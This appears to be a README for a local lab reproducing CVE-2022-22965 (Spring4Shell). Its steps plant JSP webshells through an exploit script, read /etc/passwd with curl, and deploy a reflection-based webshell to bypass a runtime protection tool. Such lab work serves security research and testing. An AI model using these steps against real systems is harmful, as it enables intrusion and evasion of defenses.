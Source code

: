 1. mvn clean package
2. cd ..
3. docker build . -t cve-2022-22965-exploit-with-rasp-pb -f bypassing-using-reflection-abuse/Dockerfile
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit-with-rasp-pb
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt
7. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="basic" 
8. curl "http://localhost:8080/basic.jsp?cmd=cat%20/etc/passwd" and see that we are blocked
![block.png](block.png)
9. Now deploy another webshell that uses reflection;
`   python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="reflection" 
`
10. curl "http://localhost:8080/reflection.jsp?cmd=cat%20/etc/passwd" and enjoy the bypass
 ![bypass.png](bypass.png)